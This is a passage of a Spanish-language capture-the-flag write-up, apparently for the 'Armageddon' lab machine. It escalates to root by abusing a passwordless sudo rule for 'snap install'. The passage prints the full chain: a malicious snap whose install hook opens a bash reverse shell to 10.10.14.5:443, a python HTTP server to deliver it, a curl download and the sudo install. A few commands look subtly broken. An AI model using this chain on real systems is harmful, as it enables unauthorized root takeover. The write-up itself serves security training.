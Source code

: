En este caso si que tenemos una consola interactiva, para que nos funcione el <kbd>CTRL</kbd> + <kbd>L</kbd> debemos ejecutar `export TERM=xterm`. 

Una vez llegado a este punto realizaremos las mismas comprobaciones de siempre para intentar elevar nuestros privilegios y nos daremos cuenta que tenemos un permiso **Sudoers** el cual nos permite ejecutar el comando **snap install** como **root** sin proporcionar contraseña.

![](<../assets/images/posts/2025-04-08-armageddon/Pasted image 20241224180717.png>)

Si nos dirigimos a la página de **GTFO-Bins](https://gtfobins.github.io/gtfobins/snap/#sudo) nos daremos cuenta como podemos abusar de este permiso de [Sudoers** para elevar nuestros privilegios.

En definitiva lo que debemos de hacer es crear un paquete malicioso de **snap** en nuestra máquina víctima, para ello ejecutaremos los siguiente comandos:

```bash
mkdir -p meta/hooks
cd !?
# Creamos un fichero malicioso que nos envie una ReverseSh
echo -e "#\!/bin/sh\nbash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" > install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
python3 -m http.server 80
```

Antes de ejecutar los siguiente comandos hemos de ponernos en escucha con **NetCat** (`nc -nvlp 443`), y luego en la máquina víctima debemos de ejecutar lo siguiente:

```bash
cd /tmp
curl http://10.10.14.5/xxxx_1.0_all.snap -O
sudo -u root /usr/bin/snap install xxxx_1.0_all.snap --devmode
```

Observamos como recibimos la **Reverse Shell** como **root** por lo que ya habríamos **pwneado** la máquina.

![](<../assets/images/posts/2025-04-08-armageddon/Pasted image 20241224181618.png>)